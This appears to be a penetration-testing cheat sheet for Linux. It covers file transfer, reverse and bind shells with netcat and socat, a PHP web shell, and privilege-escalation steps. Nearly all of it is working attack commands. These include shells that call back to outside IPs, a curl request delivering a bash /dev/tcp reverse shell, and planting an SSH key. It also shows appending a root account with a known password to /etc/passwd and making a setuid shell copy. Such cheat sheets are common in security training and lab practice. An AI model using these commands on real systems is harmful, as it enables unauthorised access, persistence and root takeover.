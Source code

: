# Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`
- SSH
  - `ssh-keygen` ; cd .ssh/; cat id_rsa.pub >> /UserHomeDir/.ssh/authorized_keys; ssh -i id_rsa user@IP
- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) for enumeration
- [GTFObins](https://gtfobins.github.io/)
- Kernal exploits [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

- id; uname -a; whoami
- hostname
- `cat /etc/issue` `cat /etc/*-releas` `uname -r` `arch` 
- `cat /etc/passwd`
- `cat ~/.*history`
- `sudo -l`
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- PrivEsc with PATH `export PATH=/tmp:$PATH`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- list services `service --status-all`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled` `ls -l /etc/init.d/*`
- Networking info `/sbin/route` `ip a`
- Connections `ss -anp`
- Linux firewall `/etc/iptables`
- Cron jobs `ls -lah /etc/cron*` `cat /etc/crontab` `grep "CRON" /var/log/cron.log`
- Installed apps `dpkg -l`
- Writable `find / -writable -type d 2>/dev/null`
- Unmounted devices and listing other drives `cat /etc/fstab` `/bin/lsblk` `mount`
- Load drivers `lsmod` `/sbin/modinfo libata`
- SUID files `find / -perm -u=s -type f 2>/dev/null`
- Writable /etc/passwd `echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd` `su root2` password is `evil`
- Stickybit `cp /bin/sh /tmp/sh;chmod 4755 /tmp/sh;` # now `/tmp/sh -i`
- SSH login with key `chmod 600 root_key;ssh -i root_key root@IP`
